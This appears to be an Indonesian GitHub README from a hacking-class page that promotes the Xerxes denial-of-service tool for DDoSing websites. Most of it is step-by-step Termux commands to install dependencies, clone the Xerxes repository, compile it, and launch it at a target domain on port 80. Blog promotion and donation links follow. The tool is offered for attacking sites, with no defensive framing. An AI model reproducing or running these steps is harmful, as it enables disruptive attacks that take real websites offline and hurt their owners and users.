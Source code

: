 ### Xerxes

# Kelas-Hackers

## Jangan lupa Kunjungi :https://r-protech.blogspot.com

## xerxes
XERXES DoS tool Yang Kuat untuk menDDOS suatu Website

```
# Cara Menggunakan :

# $ pkg update && pkg upgrade
# $ pkg install php
# $ pkg install python2
# $ pkg install mechanize
# $ pkg install openssh
# $ pkg install git
# $ git clone https://github.com/TheSploit/Xerxes
# $ cd Xerxes
# $ gcc xerxes.c -o xerxes
# $ ./xerxes namaweb.com 80
```
```From World```
<noscript><a href="https://paypal.me/indonimous"><img alt="Donate using Liberapay" src="https://liberapay.com/assets/widgets/donate.svg"></a></noscript>
```From Indonesian```
<noscript><a href="https://sociabuzz.com/rivalid/donate"><img alt="Donate using Liberapay" src="https://liberapay.com/assets/widgets/donate.svg"></a></noscript>
